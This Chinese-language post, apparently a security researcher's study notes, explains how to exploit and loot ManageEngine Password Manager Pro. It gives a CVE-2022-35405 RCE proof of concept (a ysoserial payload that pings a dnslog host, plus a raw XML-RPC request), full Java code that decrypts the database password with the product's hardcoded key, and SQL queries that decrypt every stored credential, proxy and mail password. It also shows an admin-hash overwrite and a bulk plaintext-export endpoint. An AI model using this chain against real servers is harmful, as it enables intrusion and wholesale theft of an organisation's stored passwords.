





## Zoho Password Manager Pro 后利用技巧

- - -

## [简介](#toc_)

学习zoho pmp这块相关知识点，简单做个总结

- - -

## [指纹](#toc__1)

```plain
server=="PMP"

默认开启在7272端口
```

- - -

## [安装](#toc__2)

-   [https://www.manageengine.com/products/passwordmanagerpro/help/installation.html](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html)

### [windows](#toc_windows)

下载安装包，双击一路下一步即可

```plain
https://archives2.manageengine.com/passwordmanagerpro/12100/ManageEngine_PMP_64bit.exe
```

访问127.0.0.1:7272

[](https://storage.tttang.com/media/attachment/2022/10/25/311a8ce4-4e1c-4734-a194-f934bed43d5a.png)

### [linux](#toc_linux)

下载安装包

```plain
https://archives2.manageengine.com/passwordmanagerpro/10501/ManageEngine_PMP_64bit.bin

chmod a+x ManageEngine_PMP_64bit.bin
./ManageEngine_PMP_64bit.bin -i console
cd /root/ManageEngine/PMP/bin
bash pmp.sh install
```

等待安装完毕，访问127.0.0.1:7272即可

- - -

## [ppm 文件](#toc_ppm)

ppm是pmp的更新包，在windows上通过UpdateManager.bat进行安装，在linux上通过UpdateManager.sh进行安装

通过对比安装ppm包前后的文件结构可以粗略判断一些漏洞的影响点,修复点

-   [https://www.manageengine.com/products/passwordmanagerpro/help/faq.html](https://www.manageengine.com/products/passwordmanagerpro/help/faq.html)

- - -

## [判断版本](#toc__3)

在访问站点时，其默认加载的js、css路径中就包含了版本信息，如下图，`12121`代表其版本号

[](https://storage.tttang.com/media/attachment/2022/10/25/be2e2be5-8da9-44dc-bfd0-ca4e3e2874f3.png)

在官方站点可以下载相应版本号的安装包

-   [https://archives2.manageengine.com/passwordmanagerpro/](https://archives2.manageengine.com/passwordmanagerpro/)

- - -

## [CVE-2022-35405](#toc_cve-2022-35405)

这个洞影响范围 12100 及以下版本，在 12101 被修复  
[](https://storage.tttang.com/media/attachment/2022/10/25/0d063d1a-642f-405e-9ee8-aa7d3682e55c.png)

poc

使用`ysoserial`的`CommonsBeanutils1`来生成Payload：

```plain
java -jar ysoserial.jar CommonsBeanutils1 "ping xxxx.dnslog.cn" | base64 | tr -d "\n"
```

替换到下面的`[base64-payload]`部分

```plain
POST /xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

[](https://storage.tttang.com/media/attachment/2022/10/25/2cc77b83-0d45-48e7-b17b-4932f6af2a44.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/d29667e3-51ed-44f3-ab02-7caa649a4d00.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/50cfa6e9-c30d-4535-a1b2-55ad653af7bd.png)

- - -

## [密钥文件](#toc__4)

### [windows](#toc_windows_1)

以windows平台的pmp为例

`database_params.conf`文件中存储了数据库的用户名和加密数据库密码。

[](https://storage.tttang.com/media/attachment/2022/10/25/482c8c78-1d1d-4fa0-945f-de11bac89774.png)

```plain
# $Id$
# driver name
drivername=org.postgresql.Driver

# login username for database if any
username=pmpuser

# password for the db can be specified here
password=NYubvnnJJ6ii871X/dYr5xwkr1P6yGCEeoA=
# url is of the form jdbc:subprotocol:DataSourceName for eg.jdbc:odbc:WebNmsDB
url=jdbc:postgresql://localhost:2345/PassTrix?ssl=require

# Minumum Connection pool size
minsize=1

# Maximum Connection pool size
maxsize=20

# transaction Isolation level
#values are Constanst defined in java.sql.connection type supported TRANSACTION_NONE    0
#Allowed values are TRANSACTION_READ_COMMITTED , TRANSACTION_READ_UNCOMMITTED ,TRANSACTION_REPEATABLE_READ , TRANSACTION_SERIALIZABLE
transaction_isolation=TRANSACTION_READ_COMMITTED
exceptionsorterclassname=com.adventnet.db.adapter.postgres.PostgresExceptionSorter

# check is the database password encrypted or not
db.password.encrypted=true
```

可以看到默认 pgsql 用户为`pmpuser`,而加密的数据库密码为`NYubvnnJJ6ii871X/dYr5xwkr1P6yGCEeoA=`

`pmp_key.key`文件显示 PMP 密钥,这个用于加密数据库中的密码

[](https://storage.tttang.com/media/attachment/2022/10/25/2fcdda4a-e3ee-4f9a-9ba4-1ef51eedd7d2.png)

```plain
#本文件是由PMP自动生成的，它包含了本次安装所使用的AES加密主密钥。
#该文件默认存储在<PMP_HOME>/conf目录中。除非您的服务器足够安全，不允许其他任何非法访问，
#否则，该文件就有可能泄密，属于安全隐患。因此，强烈建议您将该文件从默认位置移动到
#PMP安装服务器以外的其它位置（如：文件服务器、U盘等），并按照安全存储要求保存该文件。
#Fri Oct 21 16:08:30 CST 2022
ENCRYPTIONKEY=G8N1EX+nkQlPVpd29eenVOYWCCS0oF/EPZdswlorot8\=
```

### [Linux](#toc_linux_1)

`database_params.conf`文件存放在`/root/ManageEngine/PMP/conf/database_params.conf`

`pmp_key.key`文件存放在`/root/ManageEngine/PMP/conf/pmp_key.key`

- - -

## [恢复pgsql的密码](#toc_pgsql)

要连接pgsql，首先需要解密pmp加密的pgsql数据库密码

找下pmp对数据库密码的加密逻辑，在shielder的文章 [https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/](https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/) 给出了加密类

[](https://storage.tttang.com/media/attachment/2022/10/25/6549069d-4ccf-43c7-96b1-b4976735d0fa.png)

找到对应jar文件

[](https://storage.tttang.com/media/attachment/2022/10/25/af8ad7b6-a847-4719-87e2-9eb1a3d8145e.png)

反编译查看解密的逻辑

[](https://storage.tttang.com/media/attachment/2022/10/25/2e85c67f-7bba-43f4-90cd-82de55bf6da5.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/c27b1828-049f-43a2-92de-5a98f167ad55.png)

可以发现encodedKey是取`@dv3n7n3tP@55Tri*`的5到10位

通过使用其DecryptDBPassword函数可以解密数据库密码，不过在shielder的文章中给出了解密的代码,直接解密

```plain
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.Key;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.spec.InvalidKeySpecException;
import java.util.Base64;
import java.lang.StringBuilder;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.SecretKeySpec;

class PimpMyPMP {
    public synchronized String decrypt(byte[] cipherText, String password) throws Exception {
        Cipher cipher;
        byte[] aeskey;

        for (int i = password.length(); i < 32; ++i) {
            password = password + " ";
        }
        if (password.length() > 32) {
            try {
                aeskey = Base64.getDecoder().decode(password);
            } catch (IllegalArgumentException e) {
                aeskey = password.getBytes();
            }
        }
        aeskey = password.getBytes();
        try {
            byte[] ivArr = new byte[16];
            for (int i = 0; i < 16; ++i) {
                ivArr[i] = cipherText[i];
            }
            cipher = Cipher.getInstance("AES/CTR/NoPadding");
            SecretKeyFactory factory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
            PBEKeySpec spec = new PBEKeySpec(new String(aeskey, "UTF-8").toCharArray(), new byte[]{1, 2, 3, 4, 5, 6, 7, 8}, 1024, 256);
            SecretKey temp = factory.generateSecret(spec);
            SecretKeySpec secret = new SecretKeySpec(temp.getEncoded(), "AES");
            cipher.init(2, (Key) secret, new IvParameterSpec(ivArr));

            byte[] cipherTextFinal = new byte[cipherText.length - 16];
            int j = 0;
            for (int i = 16; i < cipherText.length; ++i) {
                cipherTextFinal[j] = cipherText[i];
                ++j;
            }

            return new String(cipher.doFinal(cipherTextFinal), "UTF-8");
        } catch (IllegalBlockSizeException | BadPaddingException | NoSuchAlgorithmException | NoSuchPaddingException |
                 InvalidKeyException | InvalidAlgorithmParameterException | InvalidKeySpecException ex) {
            ex.printStackTrace();
            throw new Exception("Exception occurred while encrypting", ex);
        }
    }

    private static String hardcodedDBKey() throws NoSuchAlgorithmException {
        String key = "@dv3n7n3tP@55Tri*".substring(5, 10);
        MessageDigest md = MessageDigest.getInstance("MD5");
        md.update(key.getBytes());
        byte[] bkey = md.digest();
        StringBuilder sb = new StringBuilder(bkey.length * 2);
        for (byte b : bkey) {
            sb.append(String.format("%02x", b));
        }
        return sb.toString();
    }

    public String decryptDBPassword(String encPassword) throws Exception {
        String decryptedPassword = null;
        if (encPassword != null) {
            try {
                decryptedPassword = this.decryptPassword(encPassword, PimpMyPMP.hardcodedDBKey());
            } catch (Exception e) {
                throw new Exception("Exception ocuured while decrypt the password");
            }
            return decryptedPassword;
        }
        throw new Exception("Password should not be Null");
    }

    public String decryptPassword(String encryptedPassword, String key) throws Exception {
        String decryptedPassword = null;
        if (encryptedPassword == null || "".equals(encryptedPassword)) {
            return encryptedPassword;
        }
        try {
            byte[] encPwdArr = Base64.getDecoder().decode(encryptedPassword);
            decryptedPassword = this.decrypt(encPwdArr, key);
        } catch (Exception ex) {
            ex.printStackTrace();
        }
        return decryptedPassword;
    }

    public static void main(String[] args) {
        PimpMyPMP klass = new PimpMyPMP();
        try {
            // database_params.conf
            String database_password = "";
            System.out.print("Database Key: ");
            System.out.println(klass.decryptDBPassword(database_password));

            // pmp_key.key
            String pmp_password = "";

            // select notesdescription from Ptrx_NotesInfo
            String notesdescription = "";
            System.out.print("MASTER Key: ");
            System.out.println(klass.decryptPassword(notesdescription, pmp_password));

            // decryptschar(column, master_key)
            String passwd = "";
            System.out.print("Passwd: ");
            System.out.println(klass.decryptPassword(passwd, pmp_password));

        } catch (Exception e) {
            System.out.println("Fail!");
        }
    }
}
```

填入加密的数据库密码，查看结果

[](https://storage.tttang.com/media/attachment/2022/10/25/d217e10c-08b1-4985-9ebe-5995ec96a1d0.png)

可以看到密码为:sC1ekMrant

连接pgsql测试

[](https://storage.tttang.com/media/attachment/2022/10/25/a09d8fbe-a591-412f-ae34-cb718a7fe6c2.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/9035155d-f72b-4eef-b2d6-e783376087c4.png)

这里注意,pmp默认的pgsql是只监听127的2345，无法外部连接，如果是rce打的，可以自行进行端口转发

[](https://storage.tttang.com/media/attachment/2022/10/25/4f4180c5-4bd9-407f-af15-8c0b745630c2.png)

- - -

## [获取master key](#toc_master-key)

在连接数据库后，查询加密的`master key`

```plain
select
notesdescription
from
Ptrx_NotesInfo
```

[](https://storage.tttang.com/media/attachment/2022/10/25/f69e7faa-0e88-4a3d-b397-4dec06d4ecbd.png)

这里通过`pmp_key.key`文件中的PMP 密钥来解密`master key`

shielder的代码在解的时候有些问题，这里使用[https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks)项目来进行解密

[](https://storage.tttang.com/media/attachment/2022/10/25/6895f17f-ebfd-4dee-a90b-b13e6882378c.png)

得到`master key`

- - -

## [解密数据库中的密码](#toc__5)

首先先查询数据库中的存储的密码

```plain
select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'***master_key***') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID
```

用`master key`替换语句里的`***master_key***`部分

[](https://storage.tttang.com/media/attachment/2022/10/25/f6bdcc3a-6b8c-429c-9c7a-60fcd7f8a87c.png)

继续使用Zoinks进行解密

[](https://storage.tttang.com/media/attachment/2022/10/25/7630a9ad-1b2e-4c57-9f34-14f4e63ea6c2.png)

这里解密出test资源,root用户的明文口令123456

- - -

## [解密代理配置](#toc__6)

当配置了代理服务器时,同样用类似的方法进行查询和解密

[](https://storage.tttang.com/media/attachment/2022/10/25/b5c2064a-c6e1-4072-b98f-d3dfeb3e0313.png)

```plain
select proxy_id,direct_connection,proxy_server,proxy_port,username,decryptschar(ptrx_proxysettings.PASSWORD,'***master_key***') from ptrx_proxysettings
```

[](https://storage.tttang.com/media/attachment/2022/10/25/2f662d4e-6a55-4435-999f-2c6f2d5c2e5f.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/f2ce686e-f8fe-4086-928c-02e7f8c5882a.png)

- - -

## [解密邮件服务器配置](#toc__7)

pmp这个默认都是配置了邮件服务器的

```plain
select mailid,mailserver,mailport,sendermail,username,decryptschar(ptrx_mailsettings.PASSWORD,'***master_key***'),tls,ssl,tlsifavail,never from ptrx_mailsettings
```

[](https://storage.tttang.com/media/attachment/2022/10/25/e34c24ff-03c2-4f02-9354-e014dd7180a8.png)

- - -

## [pg数据库postgres用户密码](#toc_pgpostgres)

```plain
select username,decryptschar(dbcredentialsaudit.PASSWORD,'***master_key***'),last_modified_time from dbcredentialsaudit
```

[](https://storage.tttang.com/media/attachment/2022/10/25/3b5b99f3-c750-4110-b0aa-f79c2421cc8c.png)

[](https://storage.tttang.com/media/attachment/2022/10/25/3333db5f-bd9e-4999-b429-6ac4a559e57b.png)

- - -

## [进入 pmp web后台](#toc_pmp-web)

在数据库中查询web后台的账号密码

```plain
select * from aaauser;
```

[](https://storage.tttang.com/media/attachment/2022/10/25/ce3e3fba-f9d6-48dd-8c17-70420c65d9b3.png)

```plain
select * from aaapassword;
```

[](https://storage.tttang.com/media/attachment/2022/10/25/30d8c00c-c095-416d-a90b-badebfee53de.png)

这里密码是进行bcryptsha512加密的，可以用hashcat进行爆破

[](https://storage.tttang.com/media/attachment/2022/10/25/de409bd2-d0e4-47e8-9f85-e9c23f751ef6.png)

也可通过覆盖hash的方式修改admin账号的密码，例如修改为下列数据，即可将admin密码改为test2

```plain
"password_id"   "password"  "algorithm" "salt"  "passwdprofile_id"  "passwdrule_id" "createdtime"   "factor"
"1" "$2a$12$bOUtxZzgrAu.3ApJM7fUYu7xBfxhJ4k2gx5CQE5BzMcN.cr/6cbhy"  "bcrypt"    "wwwECQECvU8zqfmCnXfSTgFnfz9CDl/cX+yDwJEhJ+91ADnOHbR0q7rOASpBqm2mQgYLHtlUJSX5u4ad7yOJpVNkoPJoI6gev75VAwAf/BTM4rpHTLT+cCdWMwnHmg=="  "1" "3" "1666345834309" "12"
```

注意⚠️：覆盖前务必备份源hash数据

[](https://storage.tttang.com/media/attachment/2022/10/25/6041cc4e-cccd-4b34-a7db-83bb5f32ceee.png)

进入后台后可直接导出所有明文密码

```plain
/jsp/xmlhttp/AjaxResponse.jsp?RequestType=ExportPasswords
```

[](https://storage.tttang.com/media/attachment/2022/10/25/d7129cf9-ebb6-4932-9ad4-03852e2f837b.png)

- - -

## [本地 Web-Accounts reports 文件](#toc_web-accounts-reports)

在后台personal页面导出个人报告时可以选择pdf或xls格式，该文件在导出后会一直存在在服务器上

[](https://storage.tttang.com/media/attachment/2022/10/25/c64f8032-85fa-4548-9c27-1fc8d0f9b0af.png)

这个问题在12122被修复

[](https://storage.tttang.com/media/attachment/2022/10/25/d5baec5d-bfdd-4734-998a-17cd1117f691.png)

- - -

## [Source & Reference](#toc_source-reference)

-   [https://www.trustedsec.com/blog/the-curious-case-of-the-password-database/](https://www.trustedsec.com/blog/the-curious-case-of-the-password-database/)
-   [https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/](https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/)
-   [https://y4er.com/posts/cve-2022-35405-zoho-password-manager-pro-xml-rpc-rce](https://y4er.com/posts/cve-2022-35405-zoho-password-manager-pro-xml-rpc-rce)
-   [https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks)
-   [https://www.manageengine.com/products/passwordmanagerpro/help/installation.html#inst-lin](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html#inst-lin)
-   [https://github.com/3gstudent/3gstudent.github.io/blob/main/\_posts/---2022-8-12-Password Manager Pro漏洞调试环境搭建.md](https://github.com/3gstudent/3gstudent.github.io/blob/main/_posts/---2022-8-12-Password%20Manager%20Pro%E6%BC%8F%E6%B4%9E%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md)
-   [https://github.com/3gstudent/3gstudent.github.io/blob/main/\_posts/---2022-8-17-Password Manager Pro利用分析——数据解密.md](https://github.com/3gstudent/3gstudent.github.io/blob/main/_posts/---2022-8-17-Password%20Manager%20Pro%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90%E2%80%94%E2%80%94%E6%95%B0%E6%8D%AE%E8%A7%A3%E5%AF%86.md)
